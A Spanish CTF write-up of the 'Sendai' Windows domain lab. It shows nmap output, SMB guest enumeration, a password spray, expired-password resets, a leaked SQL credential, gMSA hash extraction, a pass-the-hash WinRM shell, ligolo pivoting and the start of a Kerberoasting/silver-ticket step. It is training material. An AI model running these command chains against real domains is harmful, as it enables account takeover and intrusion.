



# Resolución maquina Sendai

**Autor:** PepeMaquina.
**Fecha:** 13 Marzo de 2026.
**Dificultad:** Medium.
**Sistema Operativo:** Windows.
**Tags:** Weak password, GMSA, ADCS, MSSQL.

---
## Imagen de la Máquina

*Imagen: Sendai.JPG*
## Reconocimiento Inicial
### Escaneo de Puertos
Comenzamos con un escaneo completo de nmap para identificar servicios expuestos:
~~~ bash
sudo nmap -p- --open -sS -vvv --min-rate 4000 -n -Pn 10.129.234.66 -oG networked
~~~
Luego queda realizar un escaneo detallado de puertos abiertos:
~~~ bash
sudo nmap -sCV -p53,80,88,135,139,389,443,445,636,3268,3269,3389,5985,49664,49668,49669,49673,49678,54058 10.129.234.66 -oN targeted
~~~
### Enumeración de Servicios
~~~bash
PORT      STATE SERVICE            VERSION
53/tcp    open  domain             (generic dns response: SERVFAIL)
| fingerprint-strings: 
|   DNS-SD-TCP: 
|     _services
|     _dns-sd
|     _udp
|_    local
80/tcp    open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec       Microsoft Windows Kerberos (server time: 2026-03-13 18:59:55Z)
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
389/tcp   open  ldap               Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.sendai.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.sendai.vl
| Not valid before: 2025-08-18T12:30:05
|_Not valid after:  2026-08-18T12:30:05
|_ssl-date: TLS randomness does not represent time
443/tcp   open  ssl/http           Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| ssl-cert: Subject: commonName=dc.sendai.vl
| Subject Alternative Name: DNS:dc.sendai.vl
| Not valid before: 2023-07-18T12:39:21
|_Not valid after:  2024-07-18T00:00:00
|_ssl-date: TLS randomness does not represent time
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
445/tcp   open  microsoft-ds?
636/tcp   open  ssl/ldap           Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc.sendai.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.sendai.vl
| Not valid before: 2025-08-18T12:30:05
|_Not valid after:  2026-08-18T12:30:05
3268/tcp  open  ldap               Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.sendai.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.sendai.vl
| Not valid before: 2025-08-18T12:30:05
|_Not valid after:  2026-08-18T12:30:05
|_ssl-date: TLS randomness does not represent time
3269/tcp  open  ssl/ldap           Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.sendai.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.sendai.vl
| Not valid before: 2025-08-18T12:30:05
|_Not valid after:  2026-08-18T12:30:05
|_ssl-date: TLS randomness does not represent time
3389/tcp  open  ssl/ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: SENDAI
|   NetBIOS_Domain_Name: SENDAI
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: sendai.vl
|   DNS_Computer_Name: dc.sendai.vl
|   DNS_Tree_Name: sendai.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-03-13T19:01:12+00:00
|_ssl-date: 2026-03-13T19:01:49+00:00; -49s from scanner time.
| ssl-cert: Subject: commonName=dc.sendai.vl
| Not valid before: 2026-03-12T18:57:52
|_Not valid after:  2026-09-11T18:57:52
5985/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc              Microsoft Windows RPC
49668/tcp open  msrpc              Microsoft Windows RPC
49669/tcp open  ncacn_http         Microsoft Windows RPC over HTTP 1.0
49673/tcp open  msrpc              Microsoft Windows RPC
49678/tcp open  msrpc              Microsoft Windows RPC
54058/tcp open  msrpc              Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.95%I=7%D=3/13%Time=69B45EEA%P=x86_64-pc-linux-gnu%r(DNS-
SF:SD-TCP,30,"\0\.\0\0\x80\x82\0\x01\0\0\0\0\0\0\t_services\x07_dns-sd\x04
SF:_udp\x05local\0\0\x0c\0\x01");
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-03-13T19:01:10
|_  start_date: N/A
|_clock-skew: mean: -48s, deviation: 0s, median: -49s
~~~
Se puede ver que se trata de un DC, por lo tanto de debe trabajar pensando en el dominio.
### Enumeración de nombre del dominio
Se realiza la enumeración del nombre del dominio y nombre del dc con credenciales nulas.
~~~ bash
┌──(kali㉿kali)-[~/htb/sendai/nmap]
└─$ sudo netexec smb 10.129.234.66 -u '' -p '' --shares
SMB         10.129.234.66   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False) 
SMB         10.129.234.66   445    DC               [+] sendai.vl\: 
SMB         10.129.234.66   445    DC               [-] Error enumerating shares: STATUS_ACCESS_DENIED
~~~
Con ello ya guardamos la ip y el dominio con su respectivo host
~~~ bash
┌──(kali㉿kali)-[~/htb/sendai/exploits]
└─$ cat /etc/hosts | grep '10.129.234.66'
10.129.234.66 sendai.vl dc dc.sendai.vl
~~~
### Enumeración Web
Al revisar el contenido de las paginas web, no se logro encontrar algo mas que la pagina predeterminada IIS, tanto en el puerto 80 como en el puerto 443.
### Enumeración Dominio
Al revisar los recursos compartidos, se probaron credenciales como invitado, logrando ver recursos compartidos y accediendo a ellos.
~~~bash
┌──(kali㉿kali)-[~/htb/sendai/nmap]
└─$ sudo netexec smb 10.129.234.66 -u 'asd' -p '' --shares
SMB         10.129.234.66   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False) 
SMB         10.129.234.66   445    DC               [+] sendai.vl\asd: (Guest)
SMB         10.129.234.66   445    DC               [*] Enumerated shares
SMB         10.129.234.66   445    DC               Share           Permissions     Remark
SMB         10.129.234.66   445    DC               -----           -----------     ------
SMB         10.129.234.66   445    DC               ADMIN$                          Remote Admin
SMB         10.129.234.66   445    DC               C$                              Default share
SMB         10.129.234.66   445    DC               config                          
SMB         10.129.234.66   445    DC               IPC$            READ            Remote IPC
SMB         10.129.234.66   445    DC               NETLOGON                        Logon server share 
SMB         10.129.234.66   445    DC               sendai          READ            company share
SMB         10.129.234.66   445    DC               SYSVOL                          Logon server share 
SMB         10.129.234.66   445    DC               Users           READ 
~~~
Al revisa el contenido de "Users" no se logro encontrar nada importante, asi que se procedio a enumerar "sendai".
~~~bash
┌──(kali㉿kali)-[~/htb/sendai/content]
└─$ smbclient '//10.129.234.66/sendai' -U 'au'

Password for [WORKGROUP\au]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Jul 18 13:31:04 2023
  ..                                DHS        0  Tue Apr 15 22:55:42 2025
  hr                                  D        0  Tue Jul 11 08:58:19 2023
  incident.txt                        A     1372  Tue Jul 18 13:34:15 2023
  it                                  D        0  Tue Jul 18 09:16:46 2023
  legal                               D        0  Tue Jul 11 08:58:23 2023
  security                            D        0  Tue Jul 18 09:17:35 2023
  transfer
~~~
Logrando encontrar "incident.txt" que se procedio a descargar.
~~~bash
smb: \> get incident.txt 
getting file \incident.txt of size 1372 as incident.txt (2.4 KiloBytes/sec) (average 2.4 KiloBytes/sec)
~~~
Al revisar el contenido de este archivo se puede ver un pequeño resumen de una anterior prueba de penetracion.
~~~bash
┌──(kali㉿kali)-[~/htb/sendai/content]
└─$ cat incident.txt  
Dear valued employees,

We hope this message finds you well. We would like to inform you about an important security update regarding user account passwords. Recently, we conducted a thorough penetration test, which revealed that a significant number of user accounts have weak and insecure passwords.

To address this concern and maintain the highest level of security within our organization, the IT department has taken immediate action. All user accounts with insecure passwords have been expired as a precautionary measure. This means that affected users will be required to change their passwords upon their next login.

We kindly request all impacted users to follow the password reset process promptly to ensure the security and integrity of our systems. Please bear in mind that strong passwords play a crucial role in safeguarding sensitive information and protecting our network from potential threats.

If you need assistance or have any questions regarding the password reset procedure, please don't hesitate to reach out to the IT support team. They will be more than happy to guide you through the process and provide any necessary support.

Thank you for your cooperation and commitment to maintaining a secure environment for all of us. Your vigilance and adherence to robust security practices contribute significantly to our collective safety.
~~~
Esto explica que se encontraron credenciales debiles y tienen que cambiar su contraseña.

En este caso se podria intentar un ataque de fuerza bruta, pero primero se debe obtener usuarios del dominio, como se tiene acceso smb como invitado, se puede enumerar usuarios.
~~~bash
┌──(kali㉿kali)-[~/htb/sendai/nmap]
└─$ sudo netexec smb 10.129.234.66 -u 'asd' -p '' --rid-brute
SMB         10.129.234.66   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False) 
SMB         10.129.234.66   445    DC               [+] sendai.vl\asd: (Guest)
SMB         10.129.234.66   445    DC               498: SENDAI\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.234.66   445    DC               500: SENDAI\Administrator (SidTypeUser)
SMB         10.129.234.66   445    DC               501: SENDAI\Guest (SidTypeUser)
SMB         10.129.234.66   445    DC               502: SENDAI\krbtgt (SidTypeUser)
SMB         10.129.234.66   445    DC               512: SENDAI\Domain Admins (SidTypeGroup)
SMB         10.129.234.66   445    DC               513: SENDAI\Domain Users (SidTypeGroup)
SMB         10.129.234.66   445    DC               514: SENDAI\Domain Guests (SidTypeGroup)
SMB         10.129.234.66   445    DC               515: SENDAI\Domain Computers (SidTypeGroup)
SMB         10.129.234.66   445    DC               516: SENDAI\Domain Controllers (SidTypeGroup)
SMB         10.129.234.66   445    DC               517: SENDAI\Cert Publishers (SidTypeAlias)
SMB         10.129.234.66   445    DC               518: SENDAI\Schema Admins (SidTypeGroup)
SMB         10.129.234.66   445    DC               519: SENDAI\Enterprise Admins (SidTypeGroup)
SMB         10.129.234.66   445    DC               520: SENDAI\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.234.66   445    DC               521: SENDAI\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.234.66   445    DC               522: SENDAI\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.234.66   445    DC               525: SENDAI\Protected Users (SidTypeGroup)
SMB         10.129.234.66   445    DC               526: SENDAI\Key Admins (SidTypeGroup)
SMB         10.129.234.66   445    DC               527: SENDAI\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.234.66   445    DC               553: SENDAI\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.234.66   445    DC               571: SENDAI\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.234.66   445    DC               572: SENDAI\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.234.66   445    DC               1000: SENDAI\DC$ (SidTypeUser)
SMB         10.129.234.66   445    DC               1101: SENDAI\DnsAdmins (SidTypeAlias)
SMB         10.129.234.66   445    DC               1102: SENDAI\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.234.66   445    DC               1103: SENDAI\SQLServer2005SQLBrowserUser$DC (SidTypeAlias)
SMB         10.129.234.66   445    DC               1104: SENDAI\sqlsvc (SidTypeUser)
SMB         10.129.234.66   445    DC               1105: SENDAI\websvc (SidTypeUser)
SMB         10.129.234.66   445    DC               1107: SENDAI\staff (SidTypeGroup)
SMB         10.129.234.66   445    DC               1108: SENDAI\Dorothy.Jones (SidTypeUser)
SMB         10.129.234.66   445    DC               1109: SENDAI\Kerry.Robinson (SidTypeUser)
SMB         10.129.234.66   445    DC               1110: SENDAI\Naomi.Gardner (SidTypeUser)
SMB         10.129.234.66   445    DC               1111: SENDAI\Anthony.Smith (SidTypeUser)
SMB         10.129.234.66   445    DC               1112: SENDAI\Susan.Harper (SidTypeUser)
SMB         10.129.234.66   445    DC               1113: SENDAI\Stephen.Simpson (SidTypeUser)
SMB         10.129.234.66   445    DC               1114: SENDAI\Marie.Gallagher (SidTypeUser)
SMB         10.129.234.66   445    DC               1115: SENDAI\Kathleen.Kelly (SidTypeUser)
SMB         10.129.234.66   445    DC               1116: SENDAI\Norman.Baxter (SidTypeUser)
SMB         10.129.234.66   445    DC               1117: SENDAI\Jason.Brady (SidTypeUser)
SMB         10.129.234.66   445    DC               1118: SENDAI\Elliot.Yates (SidTypeUser)
SMB         10.129.234.66   445    DC               1119: SENDAI\Malcolm.Smith (SidTypeUser)
SMB         10.129.234.66   445    DC               1120: SENDAI\Lisa.Williams (SidTypeUser)
SMB         10.129.234.66   445    DC               1121: SENDAI\Ross.Sullivan (SidTypeUser)
SMB         10.129.234.66   445    DC               1122: SENDAI\Clifford.Davey (SidTypeUser)
SMB         10.129.234.66   445    DC               1123: SENDAI\Declan.Jenkins (SidTypeUser)
SMB         10.129.234.66   445    DC               1124: SENDAI\Lawrence.Grant (SidTypeUser)
SMB         10.129.234.66   445    DC               1125: SENDAI\Leslie.Johnson (SidTypeUser)
SMB         10.129.234.66   445    DC               1126: SENDAI\Megan.Edwards (SidTypeUser)
SMB         10.129.234.66   445    DC               1127: SENDAI\Thomas.Powell (SidTypeUser)
SMB         10.129.234.66   445    DC               1128: SENDAI\ca-operators (SidTypeGroup)
SMB         10.129.234.66   445    DC               1129: SENDAI\admsvc (SidTypeGroup)
SMB         10.129.234.66   445    DC               1130: SENDAI\mgtsvc$ (SidTypeUser)
SMB         10.129.234.66   445    DC               1131: SENDAI\support (SidTypeGroup)
~~~
Al pasar todo estos nombres a un archivo, se procede a probar contraseñas debiles, pero esto seria un proceso largo. Recordando el mensaje que se encontro, esto menciona que se reinicaron credenciales, por lo que la primera opcion que viene a la mente es probar contraseñas vacias.
~~~bash
┌──(kali㉿kali)-[~/htb/sendai]
└─$ sudo netexec smb 10.129.234.66 -u users -p '' --continue-on-success
[sudo] password for kali: 
SMB         10.129.234.66   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False) 
SMB         10.129.234.66   445    DC               [-] sendai.vl\sqlsvc: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\websvc: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Dorothy.Jones: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Kerry.Robinson: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Naomi.Gardner: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Anthony.Smith: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Susan.Harper: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Stephen.Simpson: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Marie.Gallagher: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Kathleen.Kelly: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Norman.Baxter: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Jason.Brady: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Elliot.Yates: STATUS_PASSWORD_MUST_CHANGE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Malcolm.Smith: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Lisa.Williams: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Ross.Sullivan: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Clifford.Davey: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Declan.Jenkins: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Lawrence.Grant: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Leslie.Johnson: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Megan.Edwards: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Thomas.Powell: STATUS_PASSWORD_MUST_CHANGE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\mgtsvc$: STATUS_LOGON_FAILURE 
~~~
Se puede ver que existen dos usuarios con coincidencias en la contraseña, pero como bien decia el mensaje de incidentes, estos usuarios deben cambiar sus contraseñas por seguridad.
Para esto existen herramientas tales como el mismo Netexec con un modulo para cambiar contraseña, pero para probar diferentes opciones se emplea la herramienta "changepasswd" de impacket.
~~~bash
┌──(kali㉿kali)-[~/htb/sendai]
└─$ impacket-changepasswd -newpass 'Password123!' 'sendai.vl/Thomas.Powell@dc.sendai.vl'
Impacket v0.14.0.dev0+20251117.163331.7bd0d5ab - Copyright Fortra, LLC and its affiliated companies 

Current password: 
[*] Changing the password of sendai.vl\Thomas.Powell
[*] Connecting to DCE/RPC as sendai.vl\Thomas.Powell
[!] Password is expired or must be changed, trying to bind with a null session.
[*] Connecting to DCE/RPC as null session
[*] Password was changed successfully.
                                                                                                                                                            
┌──(kali㉿kali)-[~/htb/sendai]
└─$ impacket-changepasswd -newpass 'Password123!' 'sendai.vl/Elliot.Yates@dc.sendai.vl'
Impacket v0.14.0.dev0+20251117.163331.7bd0d5ab - Copyright Fortra, LLC and its affiliated companies 

Current password: 
[*] Changing the password of sendai.vl\Elliot.Yates
[*] Connecting to DCE/RPC as sendai.vl\Elliot.Yates
[!] Password is expired or must be changed, trying to bind with a null session.
[*] Connecting to DCE/RPC as null session
[*] Password was changed successfully.
~~~

Ambos usuarios tienen permisos mas elevados, entre ellos acceso a un recurso compartido "config", asi que se procede a entrar para ver su contenido.
~~~bash
┌──(kali㉿kali)-[~/htb/sendai]
└─$ impacket-smbclient sendai.vl/Thomas.Powell:'Password123!'@10.129.234.66
Impacket v0.14.0.dev0+20251117.163331.7bd0d5ab - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# shares
ADMIN$
C$
config
IPC$
NETLOGON
sendai
SYSVOL
Users
# use config
# ls
drw-rw-rw-          0  Fri Mar 13 17:36:03 2026 .
drw-rw-rw-          0  Tue Apr 15 22:55:42 2025 ..
-rw-rw-rw-         78  Tue Jul 11 08:57:10 2023 .sqlconfig
# get .sqlconfig
# bin
*** Unknown syntax: bin
# get .sqlconfig
# exit
~~~
Se encontro un archivo de configuracion sql, se la descargo y vio el contenido encontrando credenciales para "sqlsvc".
~~~bash
──(kali㉿kali)-[~/htb/sendai/exploits]
└─$ cat ../.sqlconfig                    
Server=dc.sendai.vl,1433;Database=prod;User Id=sqlsvc;Password=SurenessBlob85;
~~~
### Bloodhound
En este punto no se logro obtener mas información con los usuarios encontrados, por lo que se procedio a realizar enumeración con bloodhound.
~~~bash
──(kali㉿kali)-[~/htb/sendai]
└─$ bloodhound-python -u 'Elliot.Yates' -p 'Password123!' -c All -d sendai.vl -ns 10.129.234.66 --zip     
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: sendai.vl
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.sendai.vl
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.sendai.vl
INFO: Found 27 users
INFO: Found 57 groups
INFO: Found 2 gpos
INFO: Found 5 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc.sendai.vl
INFO: Done in 00M 27S
INFO: Compressing output into 20260313180017_bloodhound.zip
~~~
Al revisar los permisos que tienen los usuarios obtenidos se puede ver una ruta de ataque.

El camino del ataque es simplemente añadirse al grupo "ADMSVC" para tener permisos GMSA y leer la contraseña o NTLM del usuario `mgtsvc$`.
Primero añadiendo al usuario al grupo.
~~~bash
┌──(kali㉿kali)-[~/htb/sendai]
└─$ bloodyAD -d sendai.vl --host 10.129.234.66 -u 'Elliot.Yates' -p 'Password123!' add groupMember 'ADMSVC' 'Elliot.Yates'
[+] Elliot.Yates added to ADMSVC
~~~
Ahora se puede abusar del GMSA.
~~~bash
┌──(kali㉿kali)-[~/htb/sendai]
└─$ sudo netexec ldap 10.129.234.66 -u 'Elliot.Yates' -p 'Password123!' --gmsa                         
LDAP        10.129.234.66   389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:sendai.vl)
LDAPS       10.129.234.66   636    DC               [+] sendai.vl\Elliot.Yates:Password123! 
LDAPS       10.129.234.66   636    DC               [*] Getting GMSA Passwords
LDAPS       10.129.234.66   636    DC               Account: mgtsvc$              NTLM: 1cee4a65ef4459e44eb0031cc640ba18     PrincipalsAllowedToReadPassword: admsvc
~~~
Al revisar los permisos de este usuario nuevo, se puede acceder a winrm.

~~~bash
┌──(kali㉿kali)-[~/htb/sendai]
└─$ evil-winrm -i 10.129.234.66 -u 'mgtsvc$' -H 1cee4a65ef4459e44eb0031cc640ba18                       
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\mgtsvc$\Documents>
~~~

---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Con las ultimas credenciales ya probadas y verificadas, se prueba intentar obtener acceso mediante winrm, obteniendo asi la user flag.
~~~powershell
*Evil-WinRM* PS C:\> cmd /c dir /r /s user.txt
 Volume in drive C has no label.
 Volume Serial Number is E474-7AC9

 Directory of C:\

04/15/2025  08:27 PM                32 user.txt
               1 File(s)             32 bytes

*Evil-WinRM* PS C:\> type user.txt
<Encuentre su user flag>
~~~

---
## Escalada de Privilegios
Para escalar privilegios existen dos formas de hacerlo.
1. Realizando portforwarding para el servicio mssql, silver ticket y obtener acceso a ejecutar comandos por mssql para finalmente abusar del privilegio impersonate.
2. Encontrar credenciales para `clifford.davey` y abusar del ESC4.
Para mi la mas sencilla de encontrar y pensar fue la primera opcion, pero se explicaran ambas.
### Metodo 1, Abuso mssql
Primero se realizo portforwarding con `ligolo` logrando ver todos los puertos internos y viendo que se encuentra presente mssql.
~~~powershell
*Evil-WinRM* PS C:\Users\mgtsvc$\Documents> netstat -a

Active Connections

  Proto  Local Address          Foreign Address        State
  <---SNIP---->
  TCP    0.0.0.0:1433           dc:0                   LISTENING
  TCP    0.0.0.0:3268           dc:0                   LISTENING
  TCP    0.0.0.0:3269           dc:0                   LISTENING
  TCP    0.0.0.0:3389           dc:0                   LISTENING
  <----SNIP---->
~~~
Para usar ligolo se creo una interfaz e inicio el proxy.
~~~bash
┌──(kali㉿kali)-[/opt/pivote/ligolo/windows]
└─$ sudo ip tuntap add user kali mode tun ligolo
                                                    
┌──(kali㉿kali)-[/opt/pivote/ligolo/windows]
└─$ sudo ip link set ligolo up 
                                                                            
┌──(kali㉿kali)-[/opt/pivote/ligolo/windows]
└─$ sudo ip route add 240.0.0.1/32 dev ligolo

┌──(kali㉿kali)-[/opt/pivote/ligolo/linux]
└─$ sudo ./proxy -selfcert     
INFO[0000] Loading configuration file ligolo-ng.yaml    
WARN[0000] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC! 
INFO[0000] Listening on 0.0.0.0:11601                   
INFO[0000] Starting Ligolo-ng Web, API URL is set to: http://127.0.0.1:8082 
WARN[0000] Ligolo-ng API is experimental, and should be running behind a reverse-proxy if publicly exposed. 
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _                                                                                                           
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/                                                                                                           
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ /                                                                                                            
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /                                                                                                             
        /____/                          /____/                                                                                                              
                                                                                                                                                            
  Made in France ♥            by @Nicocha30!                                                                                                                
  Version: 0.8.2                                                                                                                                            
                                                                                                                                                            
ligolo-ng »
~~~
Desde el DC se entabla la conexión utilizando un agente.
~~~bash
C:\users\mgtsvc$> .\agent.exe -connect 10.10.x.x:11601 -ignore-cert
agent.exe : time="2026-03-13T18:25:30-07:00" level=warning msg="warning, certificate validation disabled"
    + CategoryInfo          : NotSpecified: (time="2026-03-1...ation disabled":String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
time="2026-03-13T18:25:30-07:00" level=info msg="Connection established" addr="10.10.x.x:11601"
~~~
Finalmente desde el proxy se inicia la conexion.
~~~bash
ligolo-ng » session
? Specify a session : 1 - SENDAI\mgtsvc$@dc - 10.129.234.66:60262 - 005056b0f1dc
[Agent : SENDAI\mgtsvc$@dc] » start
INFO[0069] Starting tunnel to SENDAI\mgtsvc$@dc (005056b0f1dc)
~~~
Ahora se obtiene conexion a todos los puertos internos del servidor, con esto se procede a iniciar sesion con mssql.
~~~bash
┌──(kali㉿kali)-[~/htb/sendai]
└─$ impacket-mssqlclient 'sendai.vl/sqlsvc:SurenessBlob85@240.0.0.1' -windows-auth 
Impacket v0.14.0.dev0+20251117.163331.7bd0d5ab - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2019 RTM (15.0.2000)
[!] Press help for extra shell commands
SQL (SENDAI\sqlsvc  guest@master)> xp_cmdshell "whoami"
ERROR(DC\SQLEXPRESS): Line 1: The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'.
SQL (SENDAI\sqlsvc  guest@master)> EXEC sp_configure 'show advanced options', 1;
ERROR(DC\SQLEXPRESS): Line 105: User does not have permission to perform this action.
~~~
Como se puede observar, no se cuenta con permisos para configurar el usao de xp_cmdshell, pero es una cuenta de servicio, por lo que se puede realizar un ataque silver ticket para impersonar al administrator y obtener dichos permisos.
### Silver Ticket
Para el silver ticket se necesita obtener el SPN, SID del dominio y la contraseña en NTLMv1.
Para el SID se realiza un lookup, aunque tambien existen formas de obtenerlo dentro de mssql, pero para no complicarse mucho.
~~~bash
┌──(kali㉿kali)-[~/htb/sendai]
└─$ impacket-lookupsid "sendai/sqlsvc:SurenessBlob85@240.0.0.1" -domain-sids 
Impacket v0.14.0.dev0+20251117.163331.7bd0d5ab - Copyright Fortra, LLC and its affiliated companies 

[*] Brute forcing SIDs at 240.0.0.1
[*] StringBinding ncacn_np:240.0.0.1[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-3085872742-570972823-736764132
498: SENDAI\Enterprise Read-only Domain Controllers (SidTypeGroup)
~~~
Posteriormente para el SPN se ve un ataque kerberoasting.
~~~bash
┌──(kali㉿kali)-[~/htb/sendai]
└─$ impacket-GetUserSPNs -dc-ip 10.129.234.66 'sendai.vl/sqlsvc' -request
Impacket v0.14.0.dev0+20251117.163331.7bd0d5ab - Copyright Fortra, LLC and its affiliated companies 

Password:
ServicePrincipalName  Name    MemberOf  PasswordLastSet             LastLogon                   Delegation 
--------------------  ------  --------  --------------------------  --------------------------  ----------
MSSQL/dc.sendai.vl    sqlsvc            2023-07-11 05:51:18.413329  2026-03-13 18:30:59.552007   
~~~
